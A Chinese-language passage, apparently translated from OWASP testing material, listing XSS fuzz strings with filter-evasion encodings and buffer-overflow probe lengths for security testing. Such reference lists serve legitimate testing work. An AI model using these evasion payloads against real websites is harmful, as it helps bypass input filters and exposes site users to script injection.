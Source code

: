 
### 跨站脚本攻击(XSS)

XSS详情请见: [跨站脚本攻击 (XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29)

```
 >"><script>alert("XSS")</script>&
 "><STYLE>@import"javascript:alert('XSS')";</STYLE>
 >"'><img%20src%3D%26%23x6a;%26%23x61;%26%23x76;%26%23x61;%26%23x73;%26%23x63;%26%23x72;%26%23x69;%26%23x70;%26%23x74;%26%23x3a;
 alert(%26quot;%26%23x20;XSS%26%23x20;Test%26%23x20;Successful%26quot;)><br>
 >%22%27><img%20src%3d%22javascript:alert(%27%20XSS%27)%22>
 '%uff1cscript%uff1ealert('XSS')%uff1c/script%uff1e'
 ">
 >"
 '';!--"<XSS>=&{()}
 <IMG SRC="javascript:alert('XSS');">
 <IMG SRC=javascript:alert('XSS')>
 <IMG SRC=JaVaScRiPt:alert('XSS')>
 <IMG SRC=JaVaScRiPt:alert(&amp;quot;XSS<WBR>&amp;quot;)>
 <IMGSRC=&amp;#106;&amp;#97;&amp;#118;&amp;#97;&amp;<WBR>#115;&amp;#99;&amp;#114;&amp;#105;&amp;#112;&amp;<WBR>#116;&amp;#58;&amp;#97;
 &amp;#108;&amp;#101;&amp;<WBR>#114;&amp;#116;&amp;#40;&amp;#39;&amp;#88;&amp;#83<WBR>;&amp;#83;&amp;#39;&amp;#41>
 <IMGSRC=&#0000106&#0000097&<WBR>#0000118&#0000097&#0000115&<WBR>#0000099&#0000114&#0000105&<WBR>#0000112&#0000116&#0000058
 &<WBR>#0000097&#0000108&#0000101&<WBR>#0000114&#0000116&#0000040&<WBR>#0000039&#0000088&#0000083&<WBR>#0000083&#0000039&#0000041><br>
 <IMGSRC=&#x6A&#x61&#x76&#x61&#x73&<WBR>#x63&#x72&#x69&#x70&#x74&#x3A&<WBR>#x61&#x6C&#x65&#x72&#x74&#x28
 &<WBR>#x27&#x58&#x53&#x53&#x27&#x29><br>
 <IMG SRC="jav&amp;#x09;ascript:alert(<WBR>'XSS');">
 <IMG SRC="jav&amp;#x0A;ascript:alert(<WBR>'XSS');">
 <IMG SRC="jav&amp;#x0D;ascript:alert(<WBR>'XSS');">
```

### 缓冲区溢出和格式化字符串错误

#### 缓冲区溢出(BFO)
缓冲区溢出或者内存坍塌攻击需要通过编程实现，它使得合法数据从内存的有限预分配存储空间中溢出。


缓冲区溢出详情请见: [缓冲区溢出测试 ](https://www.owasp.org/index.php/Testing_for_Buffer_Overflow_%28OWASP-DV-014%29)


注意，尝试在一个漏洞检测程序中加载这样的定义文件可能会导致程序崩溃。

```
 A x 5
 A x 17
 A x 33
 A x 65
 A x 129
 A x 257
 A x 513
 A x 1024
 A x 2049
 A x 4097
 A x 8193
 A x 12288
```
